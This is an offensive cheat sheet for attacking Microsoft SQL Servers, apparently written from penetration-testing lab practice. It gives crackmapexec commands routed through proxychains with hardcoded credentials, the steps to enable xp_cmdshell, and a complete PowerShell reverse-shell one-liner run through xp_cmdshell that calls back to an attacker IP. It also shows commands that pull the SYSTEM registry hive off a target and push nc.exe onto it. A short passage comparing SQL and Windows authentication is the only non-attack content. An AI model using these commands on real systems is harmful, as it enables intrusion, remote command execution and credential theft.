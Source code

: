 ### Show all databases
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.124.142 -u web_svc -p Diamond1 -q 'SELECT name FROM master.sys.databases;'
SELECT name FROM sys.databases;

### Show all tables from msdb database
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.124.142 -u web_svc -p Diamond1 -q 'SELECT name FROM msdb.sys.tables'
SELECT * FROM database_name.information_schema.tables;

### show all values of tablename from database_name
select * from database_name.dbo.table_name;

### Enable command execution
```
enable_xp_cmdshell;
```
```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Mssql Connection and Get Reverse Sehll
```
impacket-mssqlclient user:pass@IP
impacket-mssqlclient user:pass@IP -windows-auth

EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.77.153'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
```

### Sql authentication vs Windows authentication
>SQL Server Authentication:

>User Credentials: Requires a username and password specific to the SQL Server database.
Authentication Process: The SQL Server validates the username and password provided by the user.
Security Implications: Typically involves storing a username and password in the application's connection string. This method is more vulnerable to security threats if credentials are not adequately protected.
Example connection string using SQL Server Authentication:

>Windows Authentication:

>User Credentials: Relies on the user's Windows credentials (username and password) without requiring a separate SQL Server username and password.
Authentication Process: The SQL Server trusts the Windows authentication process, and the user is authenticated based on their Windows login credentials.
Security Implications: Generally considered more secure as it leverages the security features of the Windows operating system. Credentials are not typically stored in connection strings.

### MSSQL Upload and Download Files
```
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.133.148 -u sql_svc -p Dolphin1 --get-file C:\\windows.old\\Windows\\System32\\SYSTEM /home/kali/Desktop/SYSTEM
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.133.148 -u sql_svc -p Dolphin1 --put-file nc.exe C:\\Users\\Public\\nc.exe
```
